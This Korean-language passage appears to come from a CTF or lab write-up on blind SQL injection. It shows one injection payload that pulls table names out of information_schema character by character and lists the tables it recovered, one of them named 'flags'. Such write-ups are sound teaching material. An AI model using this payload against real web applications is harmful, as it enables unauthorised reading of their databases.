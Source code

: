 ![파이썬 활용 데이터베이스 추출 완료](/assets/web-screenshots/blind-error-based-sqli/python_database_success.png)

> 데이터베이스 이름 **spec5**

추출한 데이터베이스 이름을 기반으로, `information_schema.tables`를 이용해 내부 테이블 목록을 확인해볼 것 이다.

```html
33333%' Or if(ascii(substr((select table_name from infOrmation_schema.tables where table_schema='spec5' limit {j},1),{i},1))={ascii},1,0) and '1%'='1"
```

![파이썬 활용 테이블 추출](/assets/web-screenshots/blind-error-based-sqli/python_table.png)

위와 같은 방식으로 파이썬 코드를 약간 수정하여, 테이블 목록을 추출하는 스크립트를 작성하였다.

![파이썬 활용 테이블 추출 완료](/assets/web-screenshots/blind-error-based-sqli/python_table_success.png)

확인된 테이블 이름:
  - comments
  - flags
  - posts
